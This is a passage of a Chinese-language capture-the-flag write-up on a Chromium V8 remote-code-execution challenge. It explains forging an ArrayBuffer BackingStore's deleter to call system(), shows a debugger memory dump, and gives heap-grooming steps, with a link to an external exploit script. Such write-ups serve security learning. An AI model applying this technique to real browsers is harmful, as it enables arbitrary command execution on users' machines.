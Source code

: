 通过伪造custom_deleter_为system，就可以执行system，其参数就是arrayBuffer中的内容了。
查看`backing store`内存布局
```
pwndbg> tele 0x555555724930-0x10 10
00:0000│   0x555555724920 ◂— 0x0
01:0008│   0x555555724928 ◂— 0x41 // chunk size
02:0010│   0x555555724930 —▸ 0x555555724970  // buffer start
03:0018│   0x555555724938 ◂— 0x30   //len
... ↓  // capacity (0x30)
05:0028│   0x555555724948 —▸ 0x7fffffffd750 —▸ 0x555555659b60 —▸ 0x55555560dad0 ◂— push   rbp // deleter_
06:0030│   0x555555724950 ◂— 0x5d203d3d3d3d3d3d ('====== ]')
07:0038│   0x555555724958 ◂— 0x3e293563316208 // flags
08:0040│   0x555555724960 —▸ 0x555555724968 ◂— 0x41 /* 'A' */

```
为了控制`BackingStore`结构体，
- 创建大小48的ArrayBuffer并释放，此时有3个chunks被free(分别为48字节的content块，32字节的shared_ptr块，48字节的BackStore块)
-  创建32字节大小的ArrayBuffer(此时会使用之前释放的32字节的shared_ptr块，48字节的BackStore块)
- 再创建一个大的ArrayBuffer(大小不是48字节即可)，这样新的ArrayBuffer中BackStore为第一次ArrayBuffer中的content块，而后使用`.set()`改写第一次ArrayBuffer中的content为另外布置好的ArrayBuffer(即再创建一个ArrayBuffer，其内容为伪造的BackStore)

此时detach大的ArrayBuffer即可触发system，大ArrayBuffer的内容为执行的命令。

[exp](https://github.com/pcy190/skr_lab/blob/master/chrome/tctf/chrome-rce/exp.js)
## reference
- https://fineas.github.io/FeDEX/post/chromium_rce.html
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Typed_arrays
- https://hxp.io/blog/74/0CTF-2020-writeups/#chromium-rce
